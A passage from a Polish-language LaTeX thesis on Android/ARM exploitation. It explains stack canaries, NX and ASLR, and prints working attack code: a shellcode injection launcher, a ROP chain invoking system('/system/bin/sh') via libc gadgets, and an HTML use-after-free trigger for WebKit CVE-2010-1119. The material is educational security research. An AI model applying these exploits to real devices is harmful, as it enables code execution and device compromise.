\textit{cookie}). Znacznik ten jest umieszczany pomiędzy obszarem pamięci przeznaczonym na zmienne lokalne procedury a danymi kontrolnymi programu 
odkładanymi na stosie, np. adresem powrotu z~funkcji, wskaźnikiem ramki itp. Jeżeli dojdzie do przepełnienia bufora, znacznik ten zostanie nadpisany. 
Dzięki temu, że jego wartość jest losowa, atakujący z bardzo małym prawdopodobieństwem może zgadnąć odpowiednią wartość. W epilogu procedury wykonywane 
jest sprawdzenie, czy wcześniej zapisana wartość nie została zmodyfikowana. W przypadku wykrycia przepełnienia buforu, działanie programu kończy się 
błędem.

W kompilatorze GCC zabezpieczenie to nazywane jest \verb+ProPolice+. Do jego włączenia lub wyłączenia służą flagi kompilatora: \verb+--stack-protector+
i \verb+--no-stack-protector+. W zestawie narzędzi Android NDK zostało dodane w wersji 1.5 i domyślnie jest włączone. Począwszy od tej wersji, także 
wszystkie źródła bibliotek systemowych są skompilowane z włączoną ochroną. 

Kod assemblerowy procedury \verb+vulnerable+ z przykładu~\ref{print:overflow} z włączonym zabezpieczeniem ProPolice został umieszczony 
na~wydruku~\ref{print:vulnerable-propolice}. W instrukcjach 2, 5, 6, 8, 9 pobierana jest wartość ciasteczka i umieszczana w odpowiednim miejscu na 
stosie. Natomiast instrukcje 11 -- 15 sprawdzają, czy wartość ta nie została zmieniona.

Należy zauważyć, że powyższa metoda wykrywania przepełnienia bufora chroni jedynie dane kontrolne programu. W dalszym ciągu możliwe jest 
zmodyfikowanie innych zmiennych lokalnych procedury, co może doprowadzić do niezamierzonego zachowania programu.

\section{Wstrzyknięcie kodu}\label{section:injection}

\begin{print}[p]
\begin{verbatim}
 1: #include <unistd.h>
 2: #include <stdlib.h>
 3: 
 4: char shellcode[] = { 
 5:  '\x5b', '\x40',     // eor r3, r3
 6:  '\xff', '\x27',     // movs r7, #255
 7:  '\x0c', '\xa1',     // add r1, pc, #48   ; adres wartości z linii 27
 8:  '\x0b', '\x60',     // str r3, [r1]
 9:  '\x04', '\xa1',     // add  r1, pc, #16  ; adres instrukcji z linii 19
10:  '\x0a', '\x68',     // ldr  r2, [r1, #0]
11:  '\xba', '\x43',     // bics r2, r7
12:  '\x0a', '\x60',     // str  r2, [r1, #0]
13:  '\x03', '\xa1',     // add r1, pc, #12   ; adres wartości z linii 21
14:  '\x4b', '\x60',     // str r3, [r1, #4]
15:  '\x04', '\xa0',     // add r0, pc, #16   ; adres wartości z linii 23
16:  '\x08', '\x60',     // str r0, [r1]
17:  '\x1a', '\x1c',     // mov r2, r3
18:  '\x0b', '\x27',     // mov r7, #11
19:  '\xcc', '\xdf',     // svc 0xcc
20:  '\xcc', '\xcc',
21:  '\xcc', '\xcc', '\xcc', '\xcc',
22:  '\xcc', '\xcc', '\xcc', '\xcc',           
23:  '/', '/', '/', 's', 
24:  'y', 's', 't', 'e', 
25:  'm', '/', 'b', 'i', 
26:  'n', '/', 'l', 's',
27:  '\xcc', '\xcc', '\xcc', '\xcc'
28: };
29:
30: char nop[] = { '\xc0', '\x46' };
31:  
32: void main(int argc, char *argv[]) {
33:   unsigned long size = strtoul(argv[1], NULL, 10);
34:   unsigned long ret = strtoul(argv[2], NULL, 16);
35:   char *payload = malloc(size + 4);
36:   unsigned long i = 0;
37:   while (i < size - sizeof(shellcode) - sizeof(ret)) {
38:     memcpy(payload + i, nop, sizeof(nop));
39:     i += sizeof(nop);
40:   }
41:   memcpy(payload + i, shellcode, sizeof(shellcode));
42:   i += sizeof(shellcode);
43:   *(unsigned long *)(payload + i) = ret;
44:   *(payload + size) = '\x00';
45:   execl("./buffer-overflow", "./buffer-overflow", payload, NULL);
46: }
\end{verbatim}
\caption{Kod maszynowy i assemblerowy shellcode'u}
\label{print:asm-shellcode}
\end{print}


\begin{print}
\begin{verbatim}
 1:  char *sh[2] = { "/system/bin/ls", NULL };
 2:  execve(sh[0], sh, NULL);
\end{verbatim}
\caption{Kod w języku C}
\label{print:c-shellcode}
\end{print}

W przykładzie z poprzedniego punktu został zaprezentowany jeden ze sposobów na wykorzystanie błędu programistycznego w celu zmiany sterowania programu.
Uruchomienie programu z odpowiednio spreparowanym argumentem pozwoliło wywołać dowolną procedurę programu. Zazwyczaj jest to jednak niewystarczające, 
aby atakujący mógł osiągnąć zamierzone cele. W~punkcie tym zostanie zaprezentowany atak, w trakcie którego przekazywany jest kod maszynowy zgodny 
z architekturą procesora danego urządzenia. Takie fragmenty kodu maszynowego nazywane są \textit{shellcode'em}. Tworzenie tego typu wstawek zostanie 
omówione w punkcie \ref{section:shellcode}. Aby przekazany kod został wykonany przez program, potrzebne jest odpowiednie ustawienie wartości
licznika instrukcji na adres pamięci, w którym umieszczony jest \textit{shellcode}. Sposób, w jaki zostanie to zrobione, jest zależny od błędu 
w programie. Poniżej zostanie przedstawione wstrzyknięcie kodu z wykorzystaniem nadpisania adresu powrotu z~podprogramu, co zostało opisane w poprzednim
punkcie. Można jednak także wykorzystać w tym celu dowolny inny błąd w programie. 

\begin{figure}
\centering

\begin{tikzpicture}[node distance=0mm ]
\node[punkt] (nop) {NOP};
\node[punkt, right=of nop] (shell) {shellcode};
\node[punkt, right=of shell] (ret) {adres powrotu}
  edge[pil, bend right=120] (nop.north);

\node[below=of nop] (stackdummy) {\phantom{adresa}};
\node[below=of ret] (stack) {stos}
  edge[pil] (stackdummy.west);
\node[below=of stack] (adresydummy) {\phantom{adry}};
\node[below=of stackdummy] (adresy) {adresy}
  edge[pil] (adresydummy.east);
\end{tikzpicture}
\caption{Stos}
\label{figure:stackoverflow}
\end{figure}

Program z przykładu \ref{print:overflow} można uruchomić z argumentem, w którym pierwsze 108 bajtów jest kodem maszynowym, który zostanie wykonany w 
trakcie ataku, natomiast adres powrotu zostanie nadpisany w taki sposób, aby wskazywał początek obszaru pamięci na stosie zaalokowanego na bufor 
\verb+buffer+. Ponieważ wstrzykiwany kod maszynowy ma mniejszy rozmiar, należy go poprzedzić odpowiednią liczbą instrukcji NOP (ang. 
\textit{no operation}). Po wykonaniu linii 11 programu, stos będzie wypełniony tak, jak na rysunku \ref{figure:stackoverflow}.

Na wydruku \ref{print:asm-shellcode} został przedstawiony kod programu, który demonstruje atak z wykorzystaniem \textit{shellcode'u}.
Program ten przyjmuje dwa argumenty: rozmiar bufora, jaki ma być wypełniony kodem maszynowym oraz adres pamięci, którym zostanie nadpisany adres 
powrotu w atakowanym programie. Adres ten powinien wskazywać na dowolną instrukcję NOP umieszczoną na stosie w trakcie wykonanie procedury 
\verb+vulnerable+. W liniach 33~--~34 parsowane są argumenty. Rozmiar bufora (\verb+size+) przekazywany jest jako liczba dziesiętna, natomiast 
adres powrotu (\verb+ret+) jako liczba szesnastkowa. Następnie alokowany jest odpowiedni obszar pamięci, w którym przygotowany będzie argument
atakowanego programu. Rozmiar ten jest powiększany względem wartości podanej przez użytkownika, aby otrzymać miejsce na poprawne 
zakończenie napisu znakiem zero. W liniach 37~--~40 początek zaalokowanego obszaru pamięci zapisywany jest sekwencją instrukcji NOP w postaci kodu 
maszynowego. Zapisywanych jest tyle bajtów, aby pozostała część pomieściła \textit{shellcode} oraz wartość, którą zostanie nadpisany adres powrotu.
W linii 41 kopiowany jest kod maszynowy \textit{shellcode'u} tuż za sekwencją instrukcji NOP. W linii 43 zapisywana jest wartość, którą nadpisany 
zostanie adres powrotu w trakcie wykonanie procedury \verb+vulnerable+. Użyta konstrukcja, tj. przypisanie wartości typu \verb+unsigned int+, 
powoduje, że wartość zapisywana jest w odpowiedniej kolejności bajtowej (little-endian). Następnie uruchamiany jest program, który jest podatny 
na błąd przepełnienia bufora z wcześniej przygotowanym argumentem.

Przekazywany \textit{shellcode} realizuje instrukcje w języku C z wydruku \ref{print:c-shellcode}. Kod maszynowy został stworzony w taki sposób, 
aby żaden jego bajt nie był równy zeru. Dzięki temu może być przekazany jako napis poprzez argument programu. W tym celu wykonywane są następujące 
operacje:
\begin{itemize}
\item Kod maszynowy instrukcji \verb+svc 0x00+ (wywołanie usługi systemu operacyjnego) zawiera zerowy bajt. Aby go wyeliminować, początkowo
została zapisana instrukcja \verb+svc 0xcc+. W liniach 9~--~12 odpowiedni bajt tej instrukcji jest zerowany.
\item Pierwszym argumentem wywołania systemowego \verb+execve+ jest napis, który określa plik programu. Został on umieszczony za kodem maszynowy
przekazywanych instrukcji (linie 23~--~27). Początkowo jest on zakończony bajtami o wartości \verb+0xcc+. Bajty te są zerowane przez instrukcje 
w liniach 7 i 8.
\item Drugim argumentem \verb+execve+ jest tablica łańcuchów przekazywanych jako argumenty nowego programu, która musi być zakończona pustym 
wskaźnikiem. Miejsce na tą tablicę zostało zarezerwowane w liniach 21 i 22. Instrukcje z linii 13~--~16 zapisują odpowiednie wartości do tej tablicy: 
adres napisu z plikiem programu oraz wartość zero.
\end{itemize}

\SaveVerb{buffer}|buffer|
\begin{print}
\begin{verbatim}
(gdb) disassemble 
Dump of assembler code for function vulnerable:
   0x000084c4 <+0>:	push	{lr}
   0x000084c6 <+2>:	sub	sp, #108	; 0x6c
   0x000084c8 <+4>:	adds	r1, r0, #0
   0x000084ca <+6>:	add	r0, sp, #4
=> 0x000084cc <+8>:	blx	0x83d8
   0x000084d0 <+12>:	add	sp, #108	; 0x6c
   0x000084d2 <+14>:	pop	{pc}
(gdb) print/x $sp
$3 = 0xbefffa78
(gdb) print/x $r0
$4 = 0xbefffa7c
\end{verbatim}
\caption{Odczytanie adresu bufora \protect\UseVerb{buffer}}
\label{print:getsp}
\end{print}

Aby program zaczął wykonywać dostarczony kod, adres powrotu należy nadpisać w taki sposób, aby wskazywał jedną z początkowych wartości bufora, w 
którym zostanie umieszczony \textit{shellcode}. Adres ten można uzyskać, uruchamiając program pod kontrolą debuggera \verb+gdb+. Ponieważ adres ten 
jest przekazywany jako pierwszy argument procedury \verb+strcpy+ w linii 11 programu \ref{print:overflow}, należy odczytać wartość rejestru R0 w 
trakcie wykonania procedury \verb+vulnerable+. Zostało to zaprezentowane na wydruku \ref{print:getsp}. Położenie stosu w kolejnych uruchomieniach 
programu jest takie samo, ponieważ została wyłączona randomizacja przestrzeni adresowej procesu. Zostanie to opisane w punkcie \ref{section:aslr}.

Omawiany program jest bardzo prosty i możliwe jest dokładne wyliczenie adresu na stosie, pod którym zostanie umieszczony przepełniany bufor. 
W przypadku bardziej złożonych programów bardzo często sytuacja jest znacznie bardziej skompilowana. W trakcie wykonania procedury podatnej na atak, 
wierzchołek stosu może znajdować się na różnej głębokości w zależności od wcześniejszego przebiegu programu. Jednak dokładne wyliczenie adresu
początku bufora nie jest konieczne. Wystarczy, że będzie on wskazywał na dowolną z instrukcji NOP. Spowoduje to wykonanie wszystkich kolejnych 
instrukcji NOP, a następnie \textit{shellcode'u}. 

\subsection{Bit NX}

W celu ochrony przed atakami, w których następuje wstrzyknięcie kodu maszynowego, w~wersji 6 architektury ARM wprowadzona została technologia bitu NX 
(ang. \textit{No Execute}). Umożliwia ona systemowi operacyjnemu oznaczyć wybrane strony pamięci jako niewykonywalne. Gdy bit NX dla danej strony 
jest ustawiony, próba wykonania zawartości tej strony jako kodu kończy się wygenerowaniem wyjątku, zgłaszanego systemowi operacyjnemu, co powoduje 
przerwanie wykonywania programu. Bit NX powinien być ustawiony dla wszystkich stron procesu oprócz tych, które zawierają kod programu i bibliotek
oraz innych świadomie dozwolonych przez program wyjątków.

Technologia bitu NX jest wspierana przez system Android od wersji 2.3. 

\section{Return-oriented programming}

\textit{Return-oriented programming} (ROP) jest to technika ataku, która pozwala na zmianę zachowania programu na dowolną, zamierzoną przez atakującego.
W trakcie ataku z wykorzystaniem tej techniki program wykonuje serię starannie dobranych drobnych fragmentów kodu, tzw. gadżetów (ang. \textit{gadget}, 
\textit{chunk}), dostępnych w przestrzeni adresowej procesu. Wykorzystywane są obszary pamięci, w których załadowany jest kod programu oraz bibliotek 
dynamicznych. Obszary te są oznaczone jako do wykonywania, co pozwala ominąć zabezpieczenie NX. Najczęściej jako baza gadżetów wykorzystywana
jest biblioteka dynamiczna \verb+libc.so+ ponieważ jest używana w większości programów oraz ze względu na fakt, że zawiera dużą liczbę gadżetów.
Inną dogodną do wykorzystania biblioteką jest \verb+libwebcore.so+, która jest używana przez programy renderujące strony HTML.

W początkowych wersjach ataków wykorzystujących technikę ROP ciąg adresów kolejnych gadżetów był umieszczany na stosie, natomiast gadżety były 
dobierane w taki sposób, aby każdy z nich kończył się instrukcją powrotu, która pobiera wartość licznika instrukcji ze stosu. W architekturze x86 jest 
to instrukcja \verb+ret+ (return), co jest genezą nazwy tej techniki. Odpowiednikiem tej instrukcji w architekturze ARM jest \verb+pop {pc}+.

Możliwe jest jednak przeprowadzenie ataku z wykorzystaniem techniki ROP, w którym dane sterujące wykonaniem programu nie są umieszczone na stosie.
W tym celu używany jest zestaw gadżetów, w których ostatnią instrukcją jest instrukcja skoku pośredniego (BX, BLX). Parametrem takiej instrukcji
jest inny rejestr ogólnego przeznaczenia, a skok jest wykonywany do adresu, jaki znajduje się w przekazanym rejestrze. Wartość tego rejestru
może być wcześniej pobierana z dowolnego obszaru pamięci procesu, w którym atakujący zapisał dane, np. ze~sterty. Taki wariant ataku typu ROP na 
architekturze ARM został opisany w pracy \cite{noreturn}.

Ręczne wyszukiwanie dogodnych fragmentów kodu, które mogą zostać użyte jako gadżet oraz składanie ich w sekwencję tak, aby uzyskać pożądane zachowanie
programu jest bardzo czasochłonne. Dostępne są jednak narzędzia, które pozwalają ten proces zautomatyzować. W~pracy \cite{kompilator} został
opisany kompilator ROP dla architektury x86. Natomiast w \cite{roparm} przedstawiono m.in. algorytmy służące do automatycznego wyszukiwania i składania
gadżetów dla architektury ARM.

Poniżej znajduje się przykład ataku wykorzystującego technikę ROP. Do przeprowadzenia ataku został wykorzystany błąd w programie z 
wydruku \ref{print:overflow}. Celem ataku jest wykonanie przez program procedury \verb+system("/system/bin/sh")+ z biblioteki standardowej. 
Bazę gadżetów stanowi biblioteka \verb+libc.so+, która jest dynamicznie ładowana w trakcie wykonania programu.

\begin{print}
\begin{verbatim}
   0x189d8 <getcwd+12>:	mov	r0, r4
   0x189da <getcwd+14>:	pop	{r4, pc}
\end{verbatim}
\caption{Gadżet}
\label{print:getcwd-chunk}
\end{print}

Skonstruowania poniższego, przykładowego ataku zostało poprzedzone wykonaniem następujących czynności przygotowujących:
\begin{itemize}
\item Uzyskanie adresu pamięci, pod którym jest załadowana biblioteka \verb+libc.so+. Najprościej można to zrobić przy użyciu narzędzia \verb+nm+. 
Niestety pakiet Android NDK nie zawiera tego programu. Innym sposobem na otrzymanie adresów zmapowanych obszarów pamięci procesu jest przeczytanie 
pliku \verb+/proc/<pid>/maps+. Dla programu, na którym zostanie przeprowadzony atak, biblioteka \verb+libc.so+ jest załadowana pod~adresem 
\verb+0x40002000+.
\item Ustalenie adresu procedury \verb+system+ w bibliotece \verb+libc.so+. Można w tym celu użyć narzędzia \verb+gdb+:
\begin{verbatim}
(gdb) x/x system
0x1a3a4 <system>:	0xb5704b2b
\end{verbatim}
Wartość \verb+0x1a3a4+ należy zwiększyć o offset, pod którym załadowana jest biblioteka \verb+libc.so+ w przestrzeni adresowej procesu.
Ponieważ biblioteka \verb+libc.so+ jest skompilowana w trybie Thumb, do licznika instrukcji musi być zapisana wartość powiększona jeszcze o 1.
\item Wyszukanie w bibliotece \verb+libc.so+ dogodnych gadżetów. Kryteria jakie powinny spełnić to: 
\begin{itemize}
\item ostatnia instrukcja musi zapisywać przekazane wartości do licznika instrukcji,
\item pozwolą na zapisanie do rejestru R0 adresu napisu \verb|"/system/bin/sh"|, który jest przekazywany jako argument procedury \verb+system+.
\end{itemize}
Kryteria te spełnia gadżet z wydruku \ref{print:getcwd-chunk}. Są to ostatnie dwie instrukcje procedury \verb+getcdw+.
\item Wyszukanie adresu napisu \verb+"/system/bin/sh"+. Napis ten także znajduje się w bibliotece \verb+libc.so+ i można go wyszukać przy użyciu 
narzędzi \verb+grep+ i \verb+objdump+.
\begin{verbatim}
(gdb) x/s 0x003ad3a
0x3ad3a:         "/system/bin/sh"
\end{verbatim} 
\end{itemize}

\begin{print}
\begin{verbatim}
 1: #include <unistd.h>
 2: #include <stdlib.h>
 3:
 4: #define OFFSET 0x40002000
 5:
 6: unsigned long rop[] = { 
 7:   OFFSET + 0x000189db,      // pop	{r4, pc}
 8:   OFFSET + 0x0003ad3a,      // "/system/bin/sh"
 9:   OFFSET + 0x000189d9,      // mov	r0, r4
10:                             // pop  {r4, pc}
11:   0xcccccccc,
12:   OFFSET + 0x0001a3a5,      // system(const char *)
13:   0
14: };
15: 
16: void main(int argc, char *argv[]) {
17:   unsigned long size = strtoul(argv[1], NULL, 10);
18:   char *payload = malloc(size + sizeof(rop));
19:   memset(payload, 'X', size);
20:   memcpy(payload + size, rop, sizeof(rop));
21:   execl("./buffer-overflow", "./buffer-overflow", payload, NULL);
22: }
\end{verbatim}
\caption{Program wykonujący atak z wykorzystaniem \textit{return-oriented programming}}
\label{print:rop}
\end{print}

Na wydruku \ref{print:rop} został przedstawiony program, który demonstruje atak z wykorzystaniem techniki ROP. Program ten przyjmuje jeden argument: 
odległość początku przepełnianego bufora od miejsca, w którym zostanie odłożony adres powrotu. Argument programu jest zapisywany na zmiennej lokalnej 
\verb+size+. W liniach 18~--~20 przygotowywany jest argument, który zostanie przekazany do atakowanego programu. Wartość początkowych \verb+size+ 
bajtów jest nieistotna. Wystarczy, że będą niezerowe, aby cały argument był poprawnym napisem. Następnie umieszczane są dane sterujące atakiem w taki 
sposób, aby ich początek nadpisał odłożony na stosie adres powrotu. W linii 21 uruchamiany jest program \ref{print:overflow} podatny na~atak ze 
spreparowanym argumentem. Wykonanie tego programu, uruchomionego z opisanym powyżej argumentem, ma następujący przebieg:
\begin{itemize}
\item W ostatniej instrukcji procedury \verb+vulnerable+, tj. \verb+pop {pc}+, ze stosu pobierana jest wartość licznika instrukcji. W wyniku 
przepełnienia bufora wczytana zostanie wartość z linii 7 programu \ref{print:rop}. Jest to adres ostatniej instrukcji gadżetu 
\ref{print:getcwd-chunk} powiększony o offset, pod którym znajduje się biblioteka \verb+libc.so+ w przestrzeni adresowej procesu.
Adres ten jest także dodatkowo zwiększony o 1, ponieważ biblioteka \verb+libc.so+ została skompilowana w trybie Thumb. Wierzchołek stosu 
po wykonaniu instrukcji \verb+pop {pc}+ będzie wskazywał na kolejną wartość danych sterujących.
\item Ostatnia instrukcja gadżetu (\verb+pop {r4, pc}+) zostanie wykonana. Spowoduje to zapisanie do rejestru R4 adresu napisu \verb+"/system/bin/sh"+ 
(linia 8), natomiast do licznika instrukcji będzie wczytany odpowiednio zwiększony adres pierwszej instrukcji gadżetu (linia 9).
\item Obydwie instrukcje gadżetu zostaną wykonane. Adres napisu \verb+"/system/bin/sh"+ będzie skopiowany do rejestru R0. Ze stosu będą pobrane
dwie kolejne wartości (linie 11, 12 na~wydruku \ref{print:rop}) i zostaną zapisane kolejno w rejestrach R4 i PC (liczniku instrukcji). Wartość 
wczytywana do rejestru R4 jest nieistotna, natomiast do licznika instrukcji zostanie zapisany odpowiednio zwiększony adres procedury \verb+system+ 
z biblioteki standardowej. 
\item Zostanie wykonana procedura \verb+system+. Jako argument będzie przekazany napis, którego adres został wcześniej umieszczony w rejestrze R0. 
\end{itemize} 

\subsection{Randomizacja przestrzeni adresowej procesu}\label{section:aslr}

Randomizacja przestrzeni adresowej procesu -- ASLR (ang. \textit{Address space layout randomization}) jest metodą, która znacząco zmniejsza szanse
powodzenia ataków polegających na~wykorzystaniu fragmentów kodu programu lub załadowanych bibliotek dynamicznych. Metoda ta jest dostarczana
przez jądro systemu operacyjnego. Polega ona na rozmieszczaniu kluczowych obszarów pamięci procesu, tj. stosu, sterty, bibliotek dynamicznych oraz 
kodu programu w~losowych miejscach przestrzeni adresowej procesu. Randomizacji podlega jedynie kod, który jest niezależny od pozycji -- PIC (ang. 
\textit{Position independent code}). Odwołania do zmiennych i procedur globalnych są wtedy wykonywane pośrednio, z wykorzystaniem tablicy GOT 
(ang. \textit{Global Table Offset}), która jest wypełniana dopiero w trakcie wykonania programu.

W systemach operacyjnych opartych na jądrze Linuxa, a zatem także w systemie Android,  można zmienić ustawienia randomizacji przestrzeni adresowej 
poprzez zapisanie odpowiedniej wartości do pliku \verb+/proc/sys/kernel/randomize_va_space+. Poszczególne wartości mają następujące znaczenie:
\begin{itemize}
\item 0 -- Powoduje całkowite wyłączenie randomizacji.
\item 1 -- Sprawia, że położenie stosu, kodu maszynowego programu i bibliotek jest randomizowane. Jest to domyślna wartość, gdy jądro systemu jest 
skompilowane z opcją \verb+CONFIG_COMPAT_BRK+.
\item 2 -- Włącza także randomizację położenia sterty w pamięci procesu. Wartość ta jest ustawiona, gdy opcja \verb+CONFIG_COMPAT_BRK+ jest wyłączona.
\end{itemize}

Randomizacja przestrzeni adresowej procesu w systemie Android była wprowadzana stopniowo. W systemach w wersji 1.x oraz 2.x dostępna była jedynie 
znikoma funkcjonalność -- randomizacja dotyczyła tylko stosu procesu. Znaczące rozszerzenia zostały wprowadzone dopiero w wersjach 4.x. W wersji 4.0 
w jądrze systemu została zaimplementowana randomizacja sterty oraz segmentów kodu. Jednak jądro systemu było skompilowane z włączoną opcją 
\verb+CONFIG_COMPAT_BRK+ ze względu na występowanie przestarzałych programów zakładających położenie sterty pod stałym adresem. Z tego powodu położenie 
sterty nie podlegało randomizacji. Opcja ta została wyłączona dopiero w wersji 4.0.3. W systemie Android w wersjach 4.0.x także kod maszynowy programów 
systemowych nie był niezależny od pozycji i z tego powodu nie podlegał randomizacji. Zostało to naprawione dopiero w wersji 4.1.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% ROZDZIAŁ 3
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\chapter{Przykłady ataków i ich implementacja w narzędziu Metasploit}

\section{Framework Metasploit}

% ogolnie opisać matesploita, 
% materiały: 
%  praca dla samsunga
%  msf_user_guide.pdf

\section{Podatności w bibliotece WebKit}

WebKit jest silnikiem przeglądarki internetowej rozwijanym na zasadach otwartego oprogramowania. Biblioteka ta odpowiada za przetwarzanie zawartości 
stron internetowych (tj. kodu HTML, skryptów, arkuszy stylów CSS, XSL), a następnie wyświetlenie rezultatu. WebKit składa się z dwóch głównych 
  komponentów:
\begin{itemize}
\item WebCore -- zapewnia obsługę obiektowego modelu dokumentu DOM (ang. \textit{Document Object Model}) oraz grafiki wektorowej SVG (ang. 
\textit{Scalable Vector Graphics}). Komponent ten także renderuje treść strony internetowej.
\item JavaScriptCore - dostarcza silnik do obsługi języka JavaScript.
\end{itemize}

Biblioteka WebKit jest używana przez wiele popularnych przeglądarek internetowych, m.~in. Google Chrome oraz Safari. Biblioteka ta jest również 
dostarczana wraz systemami operacyjnymi Android oraz iOS (system operacyjny firmy Apple dedykowany dla telefonów iPhone), w których wykorzystywana jest 
przez domyślne aplikacje do przeglądania stron internetowych i przez programy obsługujące pocztę elektroniczną.  

CVE (ang. \textit{Common Vulnerabilities and Exposures}) jest bazą danych podatności oraz zagrożeń dotyczących bezpieczeństwa informacji w systemach 
informatycznych. System ten jest zarządzany przez organizację MITRE. Każde zgłoszenie otrzymuje unikalny identyfikator i~zawiera krótki opis podatności,
potencjalne ryzyka oraz wersje oprogramowania, w których występuje błąd. Identyfikatory CVE są uznawane za standard w systemach do wymiany informacji o 
zagrożeniach. Każde zgłoszenie jest także oceniane w skali punktowej CVSS (ang. \textit{Common Vulnerability Scoring System}), dzięki której łatwo można
ocenić, na ile dane zgłoszenie jest poważne. W latach 2010 -- 2011 zostało zgłoszonych ponad 200 podatności dotyczących biblioteki WebKit, spośród 
których ok. 80\% pozwalało na wykonanie dostarczonego przez atakującego kodu. Szczegóły większości z tych błędów nie są publicznie dostępne, jednak na 
portalach poświęconych bezpieczeństwu, np. \cite{exploitdb}, \cite{packetstorm}, można znaleźć przykłady ataków wykorzystujących niektóre podatności.

W kolejnych punktach zostaną omówione wybrane błędy w bibliotece WebKit występujące także w systemie Android. Poniższe przykłady wymagają interakcji 
ze strony użytkownika, który musi otworzyć w przeglądarce internetowej specjalnie spreparowaną stronę HTML. Na dołączonej płycie CD znajdują się 
moduły frameworku Metasploit, które umożliwiają przeprowadzenie ataku.

\subsection{CVE-2010-1119}

\begin{print}
\begin{verbatim}
 1: <html>
 2:   <head>
 3:     <script language="JavaScript">
 4:       function heap() {
 5:         var p_node = document.getElementById("target");
 6:         var id_attribute = p_node.getAttributeNode('id');
 7:         nodes = id_attribute.childNodes;
 8:         document.body.removeChild(p_node);
 9:         id_attribute.removeChild(nodes[0]);
10:         setTimeout(function () {
11:           for (var i = 0; i < 10000; i++) {
12:             var s = new String(unescape("\u4141\u4141"));
13:           }
14:           alert("freeze");
15:           nodes[0].textContent;
16:         }, 0);
17:       }
18:     </script>
19:   </head>
20:   <body onload=heap()>
21:     <p id=target></p>
22:   </body>
23: </html>
\end{verbatim}
\caption{Treść strony HTML, która powoduje wystąpienie błędu}
\label{print:use-after-free-html}
\end{print}

\begin{print}
\begin{verbatim}
I/DEBUG   (   28): pid: 295, tid: 307  >>> com.android.browser <<<
I/DEBUG   (   28): signal 11 (SIGSEGV), fault addr 41414195
I/DEBUG   (   28):  r0 41414141  r1 004a0460  r2 000000de  r3 00000005
I/DEBUG   (   28):  r4 004a0460  r5 48cc2048  r6 483d31c0  r7 485a53c8
I/DEBUG   (   28):  r8 485a5d88  r9 4374ef1c  10 4374ef04  fp 00373b40
I/DEBUG   (   28):  ip 00b88d08  sp 485a5140  lr aa0482ab  pc aa04a57a  
cpsr 60000030
I/DEBUG   (   28):          #00  pc 0004a57a  /system/lib/libwebcore.so
I/DEBUG   (   28):          #01  pc 001ae354  /system/lib/libwebcore.so
I/DEBUG   (   28):          #02  pc 0000c0de  /system/lib/libwebcore.so
I/DEBUG   (   28):          #03  pc 001cbf14  /system/lib/libwebcore.so
\end{verbatim}
\caption{Log zapisany po zakończeniu procesu błędem}
\label{print:stacktrace}
\end{print}

\begin{print}
\begin{verbatim}
4a578:	ldr	r0, [r4, #0]
4a57a:	ldr	r2, [r0, #84]	; 0x54
4a57c:	adds	r0, r4, #0
4a57e:	blx	r2
\end{verbatim}
%4a580:	subs	r0, #1
%4a582:	cmp	r0, #11
\caption{Instrukcje assemblera, w trakcie których dochodzi do błędu}
\label{print:webcore-asm}
\end{print}


\begin{figure}
\centering

\begin{tikzpicture}[x=2cm, y=-1em, node distance=0mm ]
\tikzstyle{blank}=[text centered, anchor=north west, minimum height=1em, minimum width=2cm]
\tikzstyle{block}=[draw, minimum height=1em, text centered, rounded corners, anchor=north west]
\tikzstyle{XLblock}=[block, minimum width=8cm, minimum height=2em]
\tikzstyle{Lblock}=[block, minimum width=6cm]
\tikzstyle{Mblock}=[block, minimum width=4cm]
\tikzstyle{Sblock}=[block, minimum width=2cm]

\node[XLblock] at (0,0) [fill=blue!20] {\LARGE NOP + shellcode};
\node[blank, anchor=south west] at (4,1) {0x00680000};
\node[XLblock] at (0,2) [fill=blue!20] {\LARGE NOP + shellcode};
\node[blank] at (4,4) {0x00600060};
\node[XLblock] (nop) at (0,4) [fill=blue!20] {\LARGE NOP + shellcode};
\node[XLblock] at (0,6) [fill=yellow!20] {\LARGE 0x00600060};
